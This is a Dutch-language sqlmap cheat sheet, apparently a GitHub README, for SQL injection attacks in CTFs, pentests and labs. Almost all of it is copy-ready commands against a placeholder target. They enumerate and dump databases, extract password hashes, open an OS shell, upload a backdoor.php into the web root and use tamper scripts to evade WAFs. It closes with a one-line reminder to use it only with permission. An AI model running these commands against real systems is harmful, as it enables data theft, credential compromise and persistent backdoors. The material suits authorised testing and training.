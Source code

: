 
# SQLMap Cheat Sheet

Een handige referentie voor het uitvoeren van SQL-injectie aanvallen met sqlmap tijdens CTF's, pentests of labs.

## Basisgebruik

**Target:**
```
http://target.com/index.php?search=test
```

**Basic detectie:**
```bash
sqlmap -u "http://target.com/index.php?search=test" --batch
```

- `--batch`: Voert automatisch keuzes uit zonder prompts.
- Detecteert database type, technieken, enz.

## Database Informatie

### Toon beschikbare databases
```bash
sqlmap -u "http://target.com/index.php?search=test" --dbs
```

### Toon tabellen binnen een database
```bash
sqlmap -u "http://target.com/index.php?search=test" -D <database_naam> --tables
```

### Toon kolommen binnen een tabel
```bash
sqlmap -u "http://target.com/index.php?search=test" -D <database_naam> -T <tabel_naam> --columns
```

### Dump specifieke kolommen
```bash
sqlmap -u "http://target.com/index.php?search=test" -D <database> -T <tabel> -C <kolom1,kolom2> --dump
```

## Geavanceerde Technieken

### Kolomaantal detecteren (UNION)
```bash
sqlmap -u "http://target.com/index.php?search=test" --technique=U --union-cols=10
```

### Wachtwoorden dumpen (indien aanwezig)
```bash
sqlmap -u "http://target.com/index.php?search=test" --passwords
```

### OS-shell verkrijgen
```bash
sqlmap -u "http://target.com/index.php?search=test" --os-shell
```

## File Access

### Upload een bestand
```bash
sqlmap -u "http://target.com/index.php?search=test" --file-write=backdoor.php --file-dest=/var/www/html/backdoor.php
```

## Extra Opties

| Flag               | Betekenis                                      |
|--------------------|------------------------------------------------|
| --batch            | Geen interactie nodig                          |
| --random-agent     | Willekeurige User-Agent                        |
| --level=5          | Meer payloads testen                           |
| --risk=3           | Risicovollere technieken meepakken             |
| --threads=10       | Snelheid verhogen                              |
| --tamper=xxx.py    | Payloads aanpassen om WAF’s te omzeilen        |
| --cookie="..."     | Cookie meegeven bij login-verplichte targets   |

## Voorbeeld: alles in één

```bash
sqlmap -u "http://target.com/index.php?search=test" --dbs --level=5 --risk=3 --random-agent --batch
```

Gebruik dit alleen op doelwitten waarvoor je toestemming hebt (CTF, testlab, eigen omgeving).

